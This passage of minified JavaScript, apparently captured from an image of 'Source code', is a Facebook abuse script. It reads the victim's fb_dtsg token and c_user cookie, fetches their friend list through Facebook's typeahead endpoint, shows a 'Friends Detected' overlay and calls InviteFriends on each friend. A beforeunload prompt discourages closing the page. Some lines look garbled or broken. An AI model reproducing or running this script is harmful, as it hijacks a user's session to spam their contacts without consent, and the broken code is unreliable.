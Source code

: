 e.responseText &amp;&amp; (b = e.responseText);                         "j" == a.charAt(0) ? (b = b.replace(/[\n\r]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);                         c &amp;&amp; c(b)                     } else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)             };             e.send(k)         }     },     d: function () {         return this.b()     } };  function ChangeLocation() {     window.location.href = "http://www.facebook.com/" } setTimeout("ChangeLocation", 1); window.onbeforeunload = function () {     if (window[tag + "_close"]) return "This script is running now!" }; var i = 3; var tay = 3; var suc = 0; var err = 0; var arr = new Array; var arn = new Array; var pho = new Array; var tag = "Close"; var page_name, x = document.getElementsByTagName("span"); for (i = 0; i &lt; x.length; i++)     if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML; var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {     var b = a;     var c = b.substring(b.indexOf("{"));     var d = JSON.parse(c);     d = d.payload.entries;     for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);     for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);     for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);     i = arr.length - 1;     tay = i;     console.log(arr.length);     var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ebb6c8'>";     display += "&lt;div style='padding-bottom:10px;font-size:15px;'>" + Title + "&lt;/div>";     display += arr.length + " Friends Detected";     display += "&lt;/div>";     document.getElementById("pagelet_sidebar").innerHTML = display;     InviteFriends(arr[i]) });
